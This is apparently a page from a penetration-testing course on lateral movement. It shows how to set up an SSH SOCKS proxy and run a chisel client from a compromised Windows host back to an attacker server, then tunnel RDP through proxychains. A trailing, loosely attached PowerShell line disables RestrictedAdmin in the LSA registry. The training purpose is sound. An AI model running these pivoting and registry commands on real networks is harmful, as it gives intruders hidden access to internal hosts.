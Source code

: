 ```
kali@kali:~$ sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config

kali@kali:~$ sudo systemctl start ssh.service

kali@kali:~$ ssh -N -D 0.0.0.0:1080 localhost
The authenticity of host 'localhost (::1)' can't be established.
ECDSA key fingerprint is SHA256:wO34ll4r18sNzXmfmg/H8uLHz97twv0ovhWuFXXxQkE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
kali@localhost's password: 
```

> Listing 17 - Using SSH as a SOCKS proxy

Now that the Kali server is configured, we'll shift our focus to the chisel client on the Windows 10 target.

First, we'll transfer the compiled Windows version of chisel to the Windows 10 client machine through the existing reverse shell. After transferring the file, we can run it as a client, providing the IP address and port of the server instance of chisel and the socks option:

```
C:\Tools> chisel.exe client 192.168.119.120:8080 socks
2020/05/12 14:03:52 client: Connecting to ws://192.168.119.120:8080
2020/05/12 14:03:52 client: proxy#1:127.0.0.1:1080=>socks: Listening
2020/05/12 14:03:52 client: Fingerprint c9:c4:c0:20:57:ff:6f:43:04:d8:3d:c1:a4:2f:31:39
2020/05/12 14:03:53 client: Connected (Latency 117.193ms)
```

> Listing 18 - Starting chisel as client

As highlighted in the last line of Listing 18, chisel established a connection to our server instance.

Finally, with the tunnel created we can open a RDP session to the Windows 10 client with proxychains:

```
kali@kali:~$ sudo proxychains rdesktop 192.168.120.10 
ProxyChains-3.1 (http://proxychains.sf.net)
Autoselecting keyboard map 'en-us' from locale
|S-chain|-<>-127.0.0.1:1080-<><>-192.168.120.10:3389-<><>-OK
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
|S-chain|-<>-127.0.0.1:1080-<><>-192.168.120.10:3389-<><>-OK
```

> Listing 19 - RDP session is tunneled with chisel

Setting up a reverse tunnel is a lot more work than simply using a built-in feature but it's still possible and through it, we can obtain GUI access with RDP in a way that is otherwise not meant to be possible.

We can also use chisel with the classic reverse SSH tunnel syntax by specifying the -reverse option instead of --socks5 on the server side.[7](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_533-7)


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit